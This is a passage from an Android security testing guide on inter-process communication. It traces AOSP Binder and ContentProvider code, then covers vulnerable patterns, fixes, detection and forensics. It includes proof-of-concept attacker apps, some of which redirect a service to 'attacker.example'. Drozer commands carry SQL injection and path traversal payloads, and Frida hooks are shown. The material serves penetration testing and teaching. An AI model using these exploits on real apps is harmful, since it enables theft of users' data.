| Does it only work on an Android version the client does not support? | Note it, discount it |

---

## 4. Source Code Walkthrough (AOSP)

Reading the framework's own IPC code is the fastest way to stop guessing. Every path below is a real
directory in the AOSP tree; browse them at <https://cs.android.com/>.

### 4.1 Where each mechanism lives

| Mechanism | AOSP location | What you learn by reading it |
|---|---|---|
| Binder driver | `drivers/android/binder.c`, `drivers/android/binder_alloc.c` (Linux kernel) | How UID/PID are stamped, how the buffer is allocated, how FDs are translated |
| Binder userspace | `frameworks/native/libs/binder/` (`IPCThreadState.cpp`, `BpBinder.cpp`, `Binder.cpp`, `Parcel.cpp`) | The BC_/BR_ command loop and Parcel serialisation |
| Binder JNI bridge | `frameworks/base/core/jni/android_util_Binder.cpp` | How `Binder.getCallingUid()` reaches the native thread state |
| Java Binder | `frameworks/base/core/java/android/os/Binder.java`, `Parcel.java`, `IBinder.java` | `clearCallingIdentity`, `onTransact` dispatch, `Parcel` recycling |
| `servicemanager` | `frameworks/native/cmds/servicemanager/` | Name registration, `addService`/`getService`, and the SELinux hook that decides who may register |
| Intent | `frameworks/base/core/java/android/content/Intent.java` | The full field list, `parseUri`, `fillIn`, `migrateExtraStreamToClipData` |
| Intent resolution | `frameworks/base/services/core/java/com/android/server/pm/resolution/ComponentResolver.java`, and `IntentFilter.java` in `core/java/android/content/` | The exact matching algorithm — action, categories, data |
| Activity start + permission check | `frameworks/base/services/core/java/com/android/server/wm/ActivityStarter.java`, `ActivityTaskManagerService.java` | Where `Permission Denial: starting Intent` is produced |
| Component permission check | `frameworks/base/services/core/java/com/android/server/am/ActivityManagerService.java` (`checkComponentPermission`) | The single function that decides exported-component reachability |
| Broadcasts | `frameworks/base/services/core/java/com/android/server/am/BroadcastQueue.java` | Ordered vs unordered delivery, receiver permission enforcement |
| ContentProvider | `frameworks/base/core/java/android/content/ContentProvider.java`, `ContentResolver.java`; `services/core/java/com/android/server/am/ContentProviderHelper.java` | `enforceReadPermissionInner`, URI grant checking |
| URI permission grants | `frameworks/base/services/core/java/com/android/server/uri/UriGrantsManagerService.java` | Exactly how `FLAG_GRANT_READ_URI_PERMISSION` is honoured, and who is recorded as granter |
| `LocalSocket` | `frameworks/base/core/java/android/net/LocalSocket.java`, `LocalSocketImpl.java`, `LocalSocketAddress.java`; JNI in `core/jni/android_net_LocalSocketImpl.cpp` | That `ABSTRACT` is the default and how the NUL prefix is applied |
| Shared memory | `frameworks/base/core/java/android/os/MemoryFile.java`, `SharedMemory.java`; `system/core/libcutils/ashmem-dev.cpp` | ashmem creation, `memfd` fallback, and sealing |
| Clipboard | `frameworks/base/services/core/java/com/android/server/clipboard/ClipboardService.java` | The focus-based read restriction introduced in Android 10 |
| Settings | `frameworks/base/packages/SettingsProvider/` | That `Settings.*` is a ContentProvider, so `content query` reaches it too |
| `PendingIntent` | `frameworks/base/core/java/android/app/PendingIntent.java`; `services/core/java/com/android/server/am/PendingIntentRecord.java` | Why a `PendingIntent` runs as its creator, and what mutability changes |

### 4.2 Tracing one call from app code to the kernel

Take the simplest possible cross-process call: an app queries a `ContentProvider` in another app.

```java
// App code
Cursor c = getContentResolver().query(Uri.parse("content://com.example.provider/items"),
                                      null, null, null, null);
```

**Step 1 — `ContentResolver.query()`**
(`frameworks/base/core/java/android/content/ContentResolver.java`)
calls `acquireUnstableProvider(uri)`, which asks `ActivityManagerService` for the provider by
authority. If the provider's process is not running, AMS starts it.

**Step 2 — AMS provider acquisition**
(`services/core/java/com/android/server/am/ContentProviderHelper.java`)
resolves the authority through `PackageManagerService`, checks that the provider is exported or that
the caller is the same UID, and evaluates the read permission and any URI grants. This is where an
unexported provider produces `SecurityException: Permission Denial: opening provider ...`.

**Step 3 — the returned object is a Binder proxy.**
The caller now holds an `IContentProvider` proxy: a `BinderProxy` in Java wrapping a `BpBinder`
handle in native code.

**Step 4 — the transaction.**
`ContentProviderNative.query()` writes the URI, projection, selection, args and sort order into a
`Parcel` and calls `transact()`. That descends into
`frameworks/native/libs/binder/BpBinder.cpp` → `IPCThreadState::transact()` →
`IPCThreadState::writeTransactionData()` → `talkWithDriver()` →
`ioctl(mProcess->mDriverFD, BINDER_WRITE_READ, &bwr)`.

**Step 5 — the kernel.**
`binder_ioctl()` → `binder_thread_write()` → `binder_transaction()` in `drivers/android/binder.c`.
The driver looks up the target node, allocates a buffer in the *target's* mmap'd region, copies the
parcel data into it, translates any embedded Binder objects and file descriptors, stamps the sender's
PID and EUID, and queues the work to a thread of the target process.

**Step 6 — the provider process.**
A thread in the target's binder thread pool returns from its blocking `ioctl` with `BR_TRANSACTION`.
`IPCThreadState::executeCommand()` calls `BBinder::transact()` → `onTransact()`. For a Java service
this reaches `Binder.execTransact()` in `Binder.java`, which sets the thread-local calling
identity and calls the Java `onTransact()`.

**Step 7 — the provider's code.**
`ContentProvider.Transport.query()` runs `enforceReadPermissionInner()` — a **second** permission
check, this time inside the provider's process — and then calls the developer's `query()` override.

**Step 8 — the reply.**
The `Cursor` is not copied through Binder. The rows are written into a `CursorWindow`, which is
**ashmem shared memory**, and only the shared-memory file descriptor travels back in the reply parcel.
This is why a query returning megabytes does not hit the ~1 MB Binder transaction limit, and it is a
concrete example of shared memory (Section 3.13) being used by the framework itself.

> **🔬 Under the Hood**
> Notice that there were two permission checks: one in `system_server` when acquiring the provider,
> and one inside the provider's own process on each call. The second exists because a provider
> reference can be passed around after acquisition. This layering — a coarse check at acquisition,
> a fine check per operation — is the pattern you should copy when you design your own IPC surface,
> and its absence in application code is exactly what you are hunting for.

### 4.3 The one function that decides exported-component reachability

In `frameworks/base/services/core/java/com/android/server/am/ActivityManagerService.java`, the static
method `checkComponentPermission(String permission, int pid, int uid, int owningUid, boolean exported)`
implements, in essence:

1. If the caller is root or `system`, allow.
2. If the caller's UID equals the component's owning UID, allow — this is why same-app components can
   always reach each other regardless of `exported`, and it is the mechanism the confused deputy
   abuses.
3. If the component is not exported, deny.
4. If a permission is declared, check it against the calling UID; otherwise allow.

Four rules. Every "can this app reach that component?" question reduces to them. Internalise rule 2
in particular: **`exported="false"` protects against other apps, not against your own app being used
as a proxy.**

### 4.4 Reading `LocalSocketAddress` to confirm the abstract-namespace default

`frameworks/base/core/java/android/net/LocalSocketAddress.java` defines the namespace enum:

```java
// AOSP — android.net.LocalSocketAddress (abridged)
public class LocalSocketAddress {
    public enum Namespace {
        ABSTRACT(0),     // the Linux abstract namespace — no filesystem entry
        RESERVED(1),     // /dev/socket, reserved for the system
        FILESYSTEM(2);   // an ordinary path
    }

    public LocalSocketAddress(String name) {
        this(name, Namespace.ABSTRACT);   // <-- the single-argument constructor
    }
}
```

That default is the whole reason Section 3.10 exists. In the JNI layer
(`frameworks/base/core/jni/android_net_LocalSocketImpl.cpp`), the abstract case writes a NUL into
`sun_path[0]` and copies the name after it, computing the address length so the kernel treats it as
abstract. There is no permission check anywhere in that path, because the kernel has nothing to check
against.

---

## 5. Security Perspective

### 5.1 How attackers abuse IPC

The offensive playbook, ordered by how often it works in practice:

| Technique | What it achieves | Requires |
|---|---|---|
| Query an exported `ContentProvider` | Direct read of app data, often the whole database | Nothing |
| SQL injection in a provider's `selection`/`sortOrder`/`projection` | Read arbitrary tables, including ones not exposed | Nothing |
| Path traversal in `openFile` | Read arbitrary files in the app sandbox | Nothing |
| Intent redirection through an exported component | Reach non-exported components and steal URI grants | Nothing |
| Deep link into a WebView | Render attacker HTML with app cookies and JS bridges | Nothing |
| Bind an exported Service and call privileged AIDL methods | Perform actions as the app | Nothing |
| Connect to an abstract UNIX socket | Whatever the private protocol allows | Nothing |
| Connect to a localhost HTTP server | Whatever the local API allows | `INTERNET` |
| Hijack a mutable `PendingIntent` | Act with the victim app's identity and permissions | Obtaining the PI (often via a notification or a broadcast) |
| Register a competing custom scheme | Steal OAuth codes and magic-link tokens | Nothing |
| Register a high-priority ordered-broadcast receiver | Observe, modify, or abort another app's broadcast | Nothing (permission depending on the action) |
| Read broadcast extras sent without a receiver permission | Passive data theft | Nothing |
| Read the clipboard | Passive theft of copied secrets | Foreground (API 29+); nothing below |
| Task hijacking via `taskAffinity` | Phishing overlay in the victim's task | Nothing |
| Read a world-readable file | Direct data theft | Storage access on older versions |

Every "Requires: Nothing" row is an app the user installed for an unrelated reason.

### 5.2 The vulnerability classes, each end to end

Sections 3.10, 3.11 and 3.20 already gave three full write-ups. Here are the remaining ones in
compact but complete form.

#### 5.2.1 Unprotected exported Service with a privileged AIDL method

**Vulnerable code:**

```java
// IAdminService.aidl
interface IAdminService {
    void   setServerUrl(String url);
    String exportUserData();
    void   wipeLocalData();
}
```

```java
// AdminService.java — VULNERABLE: no caller checks anywhere
public class AdminService extends Service {
    private final IAdminService.Stub binder = new IAdminService.Stub() {
        @Override public void setServerUrl(String url) { Config.setBaseUrl(url); }
        @Override public String exportUserData()       { return Db.dumpAllAsJson(); }
        @Override public void wipeLocalData()          { Db.wipe(); }
    };
    @Override public IBinder onBind(Intent i) { return binder; }
}
```

```xml
<service android:name=".AdminService" android:exported="true">
    <intent-filter><action android:name="com.example.app.ADMIN"/></intent-filter>
</service>
```

**Why developers write it.** The service exists so the company's *other* app — the enterprise MDM
companion, or the "pro" version — can drive it. Since both apps are theirs, the developer reasons
that only their code will call it. Nothing in the SDK forces them to state that constraint.

**Exploit:**

```java
// Attacker app
Intent i = new Intent("com.example.app.ADMIN");
i.setPackage("com.example.app");                 // explicit, required since API 21
bindService(i, new ServiceConnection() {
    @Override public void onServiceConnected(ComponentName n, IBinder b) {
        IAdminService svc = IAdminService.Stub.asInterface(b);
        try {
            String data = svc.exportUserData();          // the whole database
            svc.setServerUrl("https://attacker.example"); // redirect all future traffic
        } catch (RemoteException e) { }
    }
    @Override public void onServiceDisconnected(ComponentName n) { }
}, Context.BIND_AUTO_CREATE);
```

Or, without writing an app at all, by raw Binder transaction once you know the transaction codes:

```bash
# adb shell — see Section 7 for how to get the service handle; for app services you
# normally need to bind, so Drozer is the practical route:
drozer console connect
run app.service.info -a com.example.app
run app.service.send com.example.app com.example.app.AdminService --msg 2 0 0 --bundle-as-obj
```

**Detection — static.** Any `Stub` implementation inside an `exported="true"` service where no method
calls `getCallingUid`, `checkCallingPermission`, `checkCallingOrSelfPermission`, or
`enforceCallingPermission`:

```bash
grep -rn "extends .*\$Stub\|\.Stub()" out/sources/
grep -rLn "getCallingUid\|CallingPermission" $(grep -rl "\.Stub" out/sources/)
```

**Detection — dynamic.** `dumpsys activity services com.example.app`, then bind from Drozer.

**Secure fix:**

```java
// FIXED — signature-level permission in the manifest, AND a per-method check.
private final IAdminService.Stub binder = new IAdminService.Stub() {
    private void enforce() {
        int uid = Binder.getCallingUidOrThrow();
        if (uid == Process.myUid()) return;                       // our own process
        // Companion app: verify by signature, not by package name.
        String[] pkgs = getPackageManager().getPackagesForUid(uid);
        if (pkgs != null) {
            for (String p : pkgs) {
                if (getPackageManager().checkSignatures(getPackageName(), p)
                        == PackageManager.SIGNATURE_MATCH) return;
            }
        }
        throw new SecurityException("caller " + uid + " not permitted");
    }
    @Override public String exportUserData() { enforce(); return Db.dumpAllAsJson(); }
    // ... every method calls enforce() first
};
```

```xml
<permission android:name="com.example.app.permission.ADMIN"
            android:protectionLevel="signature"/>
<service android:name=".AdminService"
         android:exported="true"
         android:permission="com.example.app.permission.ADMIN"/>
```

**Severity:** **High** to **Critical**, depending on the methods. Full data export or a mutable server
URL is Critical in most applications.

#### 5.2.2 Broadcast that leaks data to the whole device

**Vulnerable code:**

```java
// VULNERABLE — every app on the device can register for this action
Intent i = new Intent("com.example.app.LOCATION_UPDATE");
i.putExtra("lat", lat).putExtra("lon", lon).putExtra("user_id", userId);
sendBroadcast(i);
```

**Why developers write it.** Broadcasts are the framework's built-in publish/subscribe. Using one to
notify their own components is idiomatic and, before `LocalBroadcastManager` and modern reactive
alternatives, was the standard answer. The global scope is invisible unless you think about it.

**Exploit:**

```java
// Attacker app — passive, silent, permanent
registerReceiver(new BroadcastReceiver() {
    @Override public void onReceive(Context c, Intent i) {
        Log.i("leak", i.getDoubleExtra("lat",0) + "," + i.getDoubleExtra("lon",0));
    }
}, new IntentFilter("com.example.app.LOCATION_UPDATE"), Context.RECEIVER_EXPORTED);
```

```bash
# adb shell — observe broadcasts to confirm during testing
dumpsys activity broadcasts | grep -i com.example.app
logcat -b events | grep -i broadcast
```

**Fix:** `sendBroadcast(i, "com.example.app.permission.INTERNAL")` with a `signature` permission, or
`i.setPackage(getPackageName())` to confine delivery to your own app, or — best — do not use a
broadcast for intra-app events at all. Use `LocalBroadcastManager` (deprecated but still confined),
a `SharedFlow`, or `LiveData`.

**Severity:** proportional to the extras. Location and identifiers: **Medium–High**. Auth tokens:
**Critical**.

#### 5.2.3 Ordered-broadcast hijacking

An **ordered broadcast** is delivered to receivers one at a time, in descending `android:priority`
order, and each receiver can modify the result or call `abortBroadcast()` to stop delivery entirely.

```java
// Attacker app — highest possible priority, aborts before the real app sees it
<receiver android:name=".Hijack" android:exported="true">
    <intent-filter android:priority="2147483647">
        <action android:name="com.example.app.ACTION_VERIFY"/>
    </intent-filter>
</receiver>
```

```java
public class Hijack extends BroadcastReceiver {
    @Override public void onReceive(Context c, Intent i) {
        Log.i("hijack", "payload=" + i.getStringExtra("otp"));
        setResultData("APPROVED");     // rewrite the result the sender will read
        abortBroadcast();              // the legitimate receiver never runs
    }
}
```

**Fix:** do not use ordered broadcasts to carry sensitive data or to make security decisions. If you
must, protect the broadcast with a `signature` permission so only your own apps receive it.

**Severity:** **Medium–High**, and higher if the aborted broadcast was a security control.

#### 5.2.4 Sticky broadcasts

`sendStickyBroadcast()` retains the Intent so that receivers registering *later* immediately get it.
There is no way to restrict who can read a sticky broadcast, which is precisely why it was deprecated
in API 21. Any remaining use is a straight data-leak finding.

```bash
# host — is it used at all?
grep -rn "sendStickyBroadcast\|removeStickyBroadcast" out/sources/
```

#### 5.2.5 `android:sharedUserId`

Two apps declaring the same `android:sharedUserId` and signed with the same key run under a single
UID. There is then **no sandbox boundary between them at all**: same data directory access, same
permissions, and either can load code into the other's process via `createPackageContext` with
`CONTEXT_INCLUDE_CODE`.

The finding is not that sharing is inherently wrong; it is that the security of both apps collapses to
the security of the weaker one, and that removing `sharedUserId` later is effectively impossible
without data loss. It is deprecated from API 29. Flag it, and check whether *every* app in the group
is in scope.

```bash
grep -n "sharedUserId" work/AndroidManifest.xml
adb shell dumpsys package com.example.app | grep -i sharedUser
adb shell "pm list packages --uid 10199"
```

#### 5.2.6 Implicit intents carrying sensitive data

```java
// VULNERABLE — an implicit intent can be resolved by ANY app that declares the filter
Intent i = new Intent("com.example.app.PROCESS");
i.putExtra("session", token);
startService(i);       // throws on API 21+, but the same mistake with sendBroadcast persists
```

Because resolution is by filter, an attacker app that declares a matching filter receives the extras.
The fix is always to make the intent explicit (`setPackage()` or `setComponent()`).

```bash
grep -rnE "new Intent\(\"" out/sources/ | grep -v setPackage
```

#### 5.2.7 Intent spoofing into a receiver that trusts the action

```java
// VULNERABLE — the receiver assumes only the system sends this
public class BootReceiver extends BroadcastReceiver {
    @Override public void onReceive(Context c, Intent i) {
        if ("android.intent.action.BOOT_COMPLETED".equals(i.getAction())) {
            startSyncWithUrl(i.getStringExtra("sync_url"));   // attacker-controlled
        }
    }
}
```

Protected broadcasts (declared by the system with `<protected-broadcast>`) genuinely cannot be sent by
an app — `BOOT_COMPLETED` is one of them. But the *extras* an app-defined action carries, and any
app-defined action, are fully spoofable. The failure here is the `sync_url` extra, not the action.

Confirm whether an action is protected:

```bash
# adb shell — try it and see; a protected broadcast is refused
am broadcast -a android.intent.action.BOOT_COMPLETED -n com.example.app/.BootReceiver
# "Permission Denial: not allowed to send broadcast android.intent.action.BOOT_COMPLETED"
```

### 5.3 OWASP MASVS / MASTG mapping

| Control | Relevance to this chapter |
|---|---|
| **MASVS-PLATFORM-1** — the app uses IPC mechanisms securely | The core of this chapter: exported components, permissions, redirection |
| **MASVS-PLATFORM-2** — WebViews are configured securely | Deep links into WebViews, JS bridges reachable via IPC |
| **MASVS-PLATFORM-3** — the app uses the user interface securely | Task hijacking, tapjacking, overlay attacks reached through IPC |
| **MASVS-STORAGE-1/2** — sensitive data storage and leakage | World-readable files, shared storage, clipboard, logs |
| **MASVS-CODE-4** — the app validates and sanitises all untrusted inputs | Intent extras, provider parameters, socket protocols |
| **MASTG-TEST-0024 / 0027** area — testing for sensitive functionality exposure through IPC | The practical test procedure |

The MASTG "Android Platform APIs" tests are the closest published procedure to Section 3.22's
methodology; use them as a checklist to prove coverage in a report, not as a substitute for the
manual reach-through analysis.

### 5.4 How malware abuses IPC

- **Accessibility service abuse** — the malware's own exported components are irrelevant; it uses
  `AccessibilityService` (itself an IPC mechanism, a system-bound service) to read every window's
  content and inject clicks. This is the dominant Android banking-trojan technique.
- **Overlay and task hijacking** — declaring `taskAffinity` matching a target app, or drawing over it,
  to phish credentials.
- **Clipper behaviour** — polling the clipboard on old versions, or using an IME/accessibility hook on
  new ones, to swap cryptocurrency addresses.
- **Provider harvesting** — enumerating every installed package's providers and querying each one.
  This is cheap, silent, and produces real data from badly written apps.
- **Broadcast eavesdropping** — registering for a wide set of common actions to collect whatever
  other apps leak.
- **Deep-link squatting** — registering the schemes of banking and wallet apps to intercept OAuth
  redirects.

A useful mental exercise: everything in this list is achievable by an app with **zero dangerous
permissions**, except the accessibility case, which requires user consent obtained through social
engineering.

### 5.5 How forensic analysts investigate IPC

An examiner looking at a compromised device asks: which app talked to which, and when?

| Artefact | Where | What it shows |
|---|---|---|
| `dumpsys activity broadcasts` | Live device | Historical broadcast records, including sender |
| `dumpsys activity activities` | Live device | Task and activity history, revealing task-hijack layouts |
| `dumpsys package <pkg>` | Live device | Declared components, install source, first install time |
| `logcat -b events` | Live device | `am_create_activity`, `am_proc_start`, broadcast events |
| `/data/system/packages.xml` | Root | Permissions granted, install origin, signatures |
| `/data/system/uri_grants.xml` | Root | **Persisted URI grants** — direct evidence of grant theft |
| `/data/misc/installd/`, `/data/app/` | Root | APK inventory and timestamps |
| `usagestats` XML under `/data/system/usagestats/` | Root | Which app was foreground when |
| Netflow/pcap | Network capture | Localhost traffic is invisible here — capture on-device |

`/data/system/uri_grants.xml` deserves emphasis: if an attacker stole a content-URI grant with
`FLAG_GRANT_PERSISTABLE_URI_PERMISSION`, the grant is written to that file and survives reboot. It is
one of the few places where an IPC attack leaves durable, attributable evidence.

---

## 6. Reverse Engineering Perspective

### 6.1 What each mechanism looks like in JADX output

**An AIDL-generated Stub** is unmistakable:

```java
// JADX output — the shape never varies
public interface IAdminService extends IInterface {
    public static abstract class Stub extends Binder implements IAdminService {
        private static final String DESCRIPTOR = "com.example.app.IAdminService";
        static final int TRANSACTION_setServerUrl = 1;   // FIRST_CALL_TRANSACTION + 0
        static final int TRANSACTION_exportUserData = 2;
        static final int TRANSACTION_wipeLocalData = 3;

        public static IAdminService asInterface(IBinder obj) {
            if (obj == null) return null;
            IInterface iin = obj.queryLocalInterface(DESCRIPTOR);
            if (iin != null && iin instanceof IAdminService) return (IAdminService) iin;
            return new Stub.Proxy(obj);
        }

        @Override
        public boolean onTransact(int code, Parcel data, Parcel reply, int flags)
                throws RemoteException {
            switch (code) {
                case TRANSACTION_setServerUrl:
                    data.enforceInterface(DESCRIPTOR);
                    setServerUrl(data.readString());
                    reply.writeNoException();
                    return true;
                ...
            }
        }
    }
}
```

From this you can reconstruct the original `.aidl` exactly: the `DESCRIPTOR` gives the interface's
fully-qualified name, the `TRANSACTION_*` constants give the method order and codes, and the sequence
of `data.readXxx()` calls in each case gives the parameter types in order. That is everything you
need to call the interface by hand.

**A `LocalServerSocket`:**

```java
LocalServerSocket lss = new LocalServerSocket("com.example.app.ipc");
```

A bare string with no `Namespace` argument means **abstract**. Grep for the string in the whole APK to
find the client side too.

**A localhost server:**

```java
ServerSocket ss = new ServerSocket(8081);                       // all interfaces!
ServerSocket ss = new ServerSocket(8081, 50, InetAddress.getByName("127.0.0.1")); // loopback
```

**A `PendingIntent` and its mutability:**

```java
PendingIntent.getActivity(ctx, 0, intent, 0);                   // pre-API-31: MUTABLE
PendingIntent.getBroadcast(ctx, 0, intent, PendingIntent.FLAG_MUTABLE);
```

Flag values you will see as raw integers in decompiled code:

| Constant | Hex | Decimal |
|---|---|---|
| `FLAG_ONE_SHOT` | `0x40000000` | 1073741824 |
| `FLAG_NO_CREATE` | `0x20000000` | 536870912 |
| `FLAG_CANCEL_CURRENT` | `0x10000000` | 268435456 |
| `FLAG_UPDATE_CURRENT` | `0x08000000` | 134217728 |
| `FLAG_IMMUTABLE` | `0x04000000` | 67108864 |
| `FLAG_MUTABLE` | `0x02000000` | 33554432 |

Seeing `67108864` in a decompiled call is `FLAG_IMMUTABLE`; seeing `0` is a mutable PendingIntent on
any pre-Android-12 target.

### 6.2 Smali patterns

**Binding to a service and getting an AIDL proxy:**

```smali
# Intent i = new Intent("com.example.app.ADMIN"); i.setPackage("com.example.app");
new-instance v0, Landroid/content/Intent;
const-string v1, "com.example.app.ADMIN"
invoke-direct {v0, v1}, Landroid/content/Intent;-><init>(Ljava/lang/String;)V
const-string v1, "com.example.app"
invoke-virtual {v0, v1}, Landroid/content/Intent;->setPackage(Ljava/lang/String;)Landroid/content/Intent;

# bindService(i, conn, BIND_AUTO_CREATE)
const/4 v2, 0x1
invoke-virtual {p0, v0, v3, v2}, Landroid/content/Context;->bindService(Landroid/content/Intent;Landroid/content/ServiceConnection;I)Z
```

**Reading an Intent extra as a nested Intent — the redirection signature:**

```smali
invoke-virtual {p0}, Landroid/app/Activity;->getIntent()Landroid/content/Intent;
move-result-object v0
const-string v1, "next_intent"
invoke-virtual {v0, v1}, Landroid/content/Intent;->getParcelableExtra(Ljava/lang/String;)Landroid/os/Parcelable;
move-result-object v2
check-cast v2, Landroid/content/Intent;
invoke-virtual {p0, v2}, Landroid/app/Activity;->startActivity(Landroid/content/Intent;)V
```

Those six instructions, in that order, are intent redirection. `check-cast` to
`Landroid/content/Intent;` immediately after `getParcelableExtra`, followed by any of
`startActivity`, `startService`, `bindService`, `sendBroadcast`, or `setResult`, is the pattern to
grep for.

```bash
# host — a practical smali grep for redirection
grep -rn -A8 "getParcelableExtra" out/smali*/ \
  | grep -B4 -E "startActivity|startService|bindService|sendBroadcast|PendingIntent"
```

**Creating an abstract LocalServerSocket:**

```smali
new-instance v0, Landroid/net/LocalServerSocket;
const-string v1, "com.example.app.ipc"
invoke-direct {v0, v1}, Landroid/net/LocalServerSocket;-><init>(Ljava/lang/String;)V
```

**`clearCallingIdentity`:**

```smali
invoke-static {}, Landroid/os/Binder;->clearCallingIdentity()J
move-result-wide v0
# ... privileged work ...
invoke-static {v0, v1}, Landroid/os/Binder;->restoreCallingIdentity(J)V
```

If there is no `:try_start`/`:catchall` structure around that block, the restore is not in a
`finally`, which is Pattern 3 from Section 3.21.2.

### 6.3 Native libraries

For the direct-IPC mechanisms, the interesting code is often native. Recognisable patterns:

| Pattern in disassembly | Mechanism |
|---|---|
| `socket(AF_UNIX=1, SOCK_STREAM=1, 0)` followed by a `sockaddr_un` where byte 2 is zeroed | Abstract UNIX socket |
| `socket(AF_INET=2, ...)` + `bind` with `sin_addr = 0` | Listening on all interfaces |
| `socket(AF_INET, ...)` + `bind` with `sin_addr = 0x0100007F` | Listening on loopback |
| `getsockopt(fd, SOL_SOCKET=1, SO_PEERCRED=17, ...)` | Peer credential check — note whether the result is actually used |
| `ashmem_create_region` / `memfd_create` | Shared memory |
| `ioctl(fd, 0xC0306201, ...)` | `BINDER_WRITE_READ` — direct binder use from native |
| `__android_log_print` with format strings containing tokens | Logging leak |

```bash
# host — quick native triage for IPC
for so in $(find . -name '*.so'); do
  echo "== $so"
  nm -D --defined-only "$so" 2>/dev/null | grep -iE "socket|bind|listen|accept|ashmem|memfd|binder"
  strings -a "$so" | grep -aE "^@[A-Za-z0-9._-]{3,}$|127\.0\.0\.1|0\.0\.0\.0|/dev/socket|\.sock$"
done
```

### 6.4 What obfuscation does — and does not do

R8/ProGuard renames the app's own classes and methods. It does **not** rename:

- Framework classes and methods (`android.content.Intent`, `getParcelableExtra`, `LocalServerSocket`),
  because they are not part of the app.
- Manifest-declared component class names, because the manifest must match; R8 rewrites both
  consistently, so names change but the *mapping* is intact and the components remain findable via
  `dumpsys`.
- String literals such as socket names, AIDL descriptors, and intent actions, unless string encryption
  is applied on top.
- AIDL transaction *codes*, which are integers baked into `onTransact`.

Consequently, **IPC surface is one of the most obfuscation-resistant things in an APK**. Even a
heavily obfuscated app must declare its exported components in a readable manifest and must call
recognisable framework APIs to receive IPC. When a client's app is obfuscated to the point of being
painful, start with IPC: it is the part that cannot hide.

String encryption does hide socket names and AIDL descriptors. Recover them at runtime:

```javascript
// Frida — dump the descriptor of every Binder Stub the app creates
Java.perform(function () {
  var Binder = Java.use("android.os.Binder");
  Binder.attachInterface.implementation = function (owner, descriptor) {
    console.log("[Stub] descriptor=" + descriptor + " class=" + owner.$className);
    return this.attachInterface(owner, descriptor);
  };
});
```

---

## 7. Dynamic Analysis

### 7.1 The live enumeration pass

Run this first, every time. It takes ninety seconds and shapes everything else.

```bash
# host — save as ipc-recon.sh; the full version is in scripts/
PKG=$1
adb shell "dumpsys package $PKG" > pkg.txt
adb shell "cat /proc/net/unix" > unix.txt
adb shell "cat /proc/net/tcp; cat /proc/net/tcp6" > tcp.txt
adb shell "service list" > services.txt
PID=$(adb shell pidof -s $PKG | tr -d '\r')
adb shell "ls -l /proc/$PID/fd" > fds.txt 2>/dev/null
grep -n "exported=true" pkg.txt
grep -n "@" unix.txt
awk 'NR>1 && $4=="0A"' tcp.txt
```

### 7.2 Drozer — testing as an ordinary app

Drozer is the right tool for reachability proof because its agent runs as a **normal third-party
application** with a normal UID. When Drozer can do something, a malicious app can do it.

```bash
# host — set up
adb install drozer-agent.apk
adb forward tcp:31415 tcp:31415
# start the agent on the device, enable the embedded server, then:
drozer console connect
```

```text
# Inside the drozer console

# 1. Find the package and its attack surface
run app.package.list -f example
run app.package.info -a com.example.app
run app.package.attacksurface com.example.app

# 2. Activities
run app.activity.info -a com.example.app
run app.activity.start --component com.example.app com.example.app.WebViewActivity \
    --extra string url https://attacker.example/

# 3. Services
run app.service.info -a com.example.app
run app.service.start --component com.example.app com.example.app.AdminService
run app.service.send com.example.app com.example.app.AdminService --msg 1 0 0 --extra string url https://attacker.example --bundle-as-obj

# 4. Broadcast receivers
run app.broadcast.info -a com.example.app
run app.broadcast.send --component com.example.app com.example.app.CmdReceiver \
    --extra string cmd wipe
run app.broadcast.sniff --action com.example.app.LOCATION_UPDATE

# 5. Content providers — the highest-yield modules in the whole tool
run app.provider.info -a com.example.app
run app.provider.finduri com.example.app
run app.provider.query content://com.example.app.provider/users
run app.provider.query content://com.example.app.provider/users \
    --projection "* FROM sqlite_master--"
run app.provider.query content://com.example.app.provider/users \
    --selection "1=1) UNION SELECT name,sql FROM sqlite_master--"
run scanner.provider.injection -a com.example.app
run scanner.provider.traversal -a com.example.app
run scanner.provider.sqltables -a com.example.app
run app.provider.read content://com.example.app.provider/files/../../databases/app.db
run app.provider.download content://com.example.app.provider/files/x /tmp/x

# 6. Whole-device sweeps, useful for triage
run scanner.provider.finduris
run app.package.attacksurface --permission android.permission.INTERNET
```

> **🔍 Pentester's Note**
> `run scanner.provider.injection -a <pkg>` and `run scanner.provider.traversal -a <pkg>` are the two
> highest-value commands in Drozer. They test every exported provider's `projection`, `selection` and
> `sortOrder` for SQL injection and every `openFile` path for traversal, in seconds. Run them on every
> engagement before you do anything by hand. Then verify each hit manually — the scanner produces
> false positives on providers that return an error for any malformed input.

Drozer's agent must be built for a modern Android version to run at all on API 30+; the community
`drozer-agent` releases and the `drozer` Python 3 fork are the ones to use. If Drozer will not run,
the fallback is a hand-written attacker APK — see [`examples/attacker-app/`](examples/attacker-app/).

### 7.3 Frida — tracing IPC as it happens

Two scripts ship with this chapter. The first,
[`scripts/trace-ipc.js`](scripts/trace-ipc.js), instruments every IPC mechanism discussed above. Here
is the core of it, so you understand what it is doing before you run it:

```javascript
// frida -U -f com.example.app -l trace-ipc.js
// Logs every outbound and inbound IPC operation with full argument detail.
Java.perform(function () {

  // ---------- Intents out ----------
  var ContextWrapper = Java.use("android.content.ContextWrapper");
  var Activity = Java.use("android.app.Activity");

  function dumpIntent(tag, i) {
    if (i === null) { console.log("[" + tag + "] null"); return; }
    var s = "[" + tag + "] action=" + i.getAction() +
            " data=" + i.getData() +
            " comp=" + (i.getComponent() ? i.getComponent().flattenToString() : "null") +
            " pkg=" + i.getPackage() +
            " flags=0x" + i.getFlags().toString(16);
    var b = i.getExtras();
    if (b !== null) {
      var it = b.keySet().iterator();
      while (it.hasNext()) {
        var k = it.next();
        var v = b.get(k);
        s += "\n    extra[" + k + "] (" + (v ? v.$className || typeof v : "null") + ") = " + v;
      }
    }
    console.log(s);
  }

  Activity.startActivity.overload('android.content.Intent').implementation = function (i) {
    dumpIntent("startActivity", i);
    return this.startActivity(i);
  };
  ContextWrapper.sendBroadcast.overload('android.content.Intent').implementation = function (i) {
    dumpIntent("sendBroadcast", i);
    return this.sendBroadcast(i);
  };
  ContextWrapper.bindService.overload(
      'android.content.Intent', 'android.content.ServiceConnection', 'int')
      .implementation = function (i, c, f) {
    dumpIntent("bindService", i);
    return this.bindService(i, c, f);
  };

  // ---------- Intents in ----------
  Activity.getIntent.implementation = function () {
    var i = this.getIntent();
    dumpIntent("getIntent<-" + this.$className, i);
    return i;
  };

  // ---------- Binder transactions ----------
  var Binder = Java.use("android.os.Binder");
  Binder.onTransact.implementation = function (code, data, reply, flags) {
    console.log("[onTransact] " + this.$className + " code=" + code +
                " callingUid=" + Binder.getCallingUid() +
